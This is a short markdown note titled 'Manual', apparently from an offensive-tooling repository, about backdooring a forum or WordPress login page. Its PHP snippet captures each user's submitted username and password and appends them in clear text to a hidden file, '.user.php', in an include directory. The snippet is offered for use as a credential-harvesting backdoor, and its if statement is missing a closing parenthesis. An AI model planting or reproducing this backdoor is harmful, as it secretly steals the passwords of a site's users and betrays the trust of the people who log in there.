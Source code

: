 # Manual

## Backdoor

Backdoor user login forum to harvest the credentials in clear text.

```php
if(!empty($_POST['pwd']) {
	$credentials['user_password'] = $_POST['pwd'];
	// file_put_contents("wp-include/.user.php", "WP: " . $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);
	file_put_contents("/path/to/wp-include/.user.php", "<change_database_name>>: " . $_POST['<username_POST_parameter>'] . " : " . $_POST['<password_POST_parameter>'] . "\n", FILE_APPEND);
}
```